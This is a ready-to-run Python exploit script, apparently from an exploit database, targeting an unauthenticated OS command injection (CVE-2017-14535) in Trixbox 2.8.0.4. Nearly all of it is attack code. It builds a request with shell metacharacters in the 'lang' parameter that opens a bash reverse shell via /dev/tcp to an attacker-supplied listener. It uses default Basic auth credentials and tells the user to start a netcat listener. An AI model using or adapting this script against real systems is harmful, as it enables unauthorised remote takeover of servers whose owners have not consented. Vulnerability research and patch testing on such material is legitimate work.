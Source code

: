 EXP
---

    # Exploit Title: Trixbox 2.8.0.4 - 'lang' Remote Code Execution (Unauthenticated)
    # Date: 27.05.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Credits to: https://secur1tyadvisory.wordpress.com/2018/02/11/trixbox-os-command-injection-vulnerability-cve-2017-14535/
    # Credits to: Sachin Wagh
    # Vendor Homepage: https://sourceforge.net/projects/asteriskathome/
    # Software Link: https://sourceforge.net/projects/asteriskathome/files/trixbox%20CE/trixbox%202.8/trixbox-2.8.0.4.iso/download
    # Version: 2.8.0.4
    # Tested on: Xubuntu 20.04
    # CVE: CVE-2017-14535

    '''
    Description:
    trixbox 2.8.0.4 has OS command injection via shell metacharacters in the lang parameter to /maint/modules/home/index.php
    '''



    '''
    Import required modules:
    '''
    import requests
    import sys
    import time


    '''
    User-input:
    '''
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    listen_ip = sys.argv[3]
    listen_port = sys.argv[4]


    '''
    Construct malicious request:
    '''
    # Construct header:
    header = {
        'Host': target_ip,
        'User-Agent': 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Authorization': 'Basic bWFpbnQ6cGFzc3dvcmQ=',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0'
    }

    # Construct malicious link:
    link_p1 = 'http://' + target_ip + ':' + target_port + '/maint/modules/home/index.php?lang=english|bash%20-i%20%3E%26%20'
    link_p2 = '%2Fdev%2Ftcp%2F' + listen_ip + '%2F' + listen_port + '%200%3E%261||x'
    link = link_p1 + link_p2


    '''
    Finish: EXPLOIT!!!
    '''
    print('')
    print('')
    print('Please start the following command in a seperate terminal: nc -lnvp ' + listen_port)
    print('')
    time.sleep(2)
    Ready = input("If you're done and want to start the exploit please input EXPLOIT: ")
    if Ready == 'EXPLOIT':
        print('')
        print('Exploit sent, check your Netcat instance :)')
        x = requests.post(link, headers=header)
    else:
        print('TRY AGAIN')